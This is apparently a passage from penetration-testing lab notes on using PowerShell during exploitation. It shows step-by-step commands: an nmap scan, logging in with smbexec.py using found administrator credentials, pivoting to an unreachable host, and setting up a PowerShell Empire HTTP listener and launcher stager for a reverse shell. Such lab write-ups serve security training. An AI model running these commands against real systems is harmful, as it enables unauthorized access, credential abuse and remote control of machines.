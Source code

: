 This approach allows you to safely handle any errors that occur during the download process.

---

## Leveraging Powershell During exploitation - LAB

<aside> 📌

_**Note: Those Steps Doesn't necessary should be the same in different Labs, You May find some errors and different scenarios based on your target architecture, network topology, etc…**_

</aside>

<aside> 👉🏻

_**This Lab Shows How we can pivot through our attacker machine to exploit a vulnerable target and post exploit to accessed/reach the Non-Reachable network target. using Powershell empire and Metasploit**_

</aside>

### ⇒ Steps: → Don’t Ignore Comments🙂

```bash
# First We Ping our targets to know which Ip is reachable 
# 1) ....
Ping demo.demo.local # Reachable 
ping demo2.demo.local # Non-Reachable 
#--------------------------------
# 2) ....
# Running Nmap Scan on the Reachable target with full port scan parameter.
nmap -p- demo.demo.local # Chacking the non-standured ports in the Results, We find that this is microsoft web server 
# -------------------------------
# 3) ....
# Accessing the web page by specifing the hided non-standured port 
=> demo.demo.local:4983 # We Find an Admin Credintails in some kind or err :D, So Realistic :)
#--------------------------------
# 4) ....
# SMB port is avaliable so we gonna try to connect with smbexec.py as follows:
smbexec.py 'Administrator:FSR@@sf12345'@demo.demo.local # Auth Successful .., We Have Sys-Previlige
# -------------------------------
# 5) ....
# First thing to do after we gaining access is to show up our network subnet in nedded
# But now lets jumb to ping our Non-Reachable:
ping demo2.demo.local # Yes its Reachable now .. :)
#--------------------------------
# 6) ....
# Time for **Powershell empire**
Powershell-empire server # in new tab ..
Powershell-empire client # in another new tab hah :)
#--------------------------------
# 7) ....
# First Thing to do is establishing a connect on our first target : **demo.demo.local** and utilized staged to get this reverse shell sesstion
(Empire) > uselistener http # 1- Specify your host (attacker Machine) And your port ofc!,
(Empire: uselistener/http) > Set HOST 192.x.x.x
(Empire: uselistener/http) > set PORT 8888 # Or Wahtever ..
(Empire: uselistener/http) > execute # The Listener started 
(Empire: uselistener/http) > Listener # To check the listnening ..
(Empire: uselistener/http) > main # To Back to Main Page -> AKA Back to Buessnis.
# Setting Our Stagers .. 
(Empire) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http
(Empire: usestager/multi/launcher) > execute
```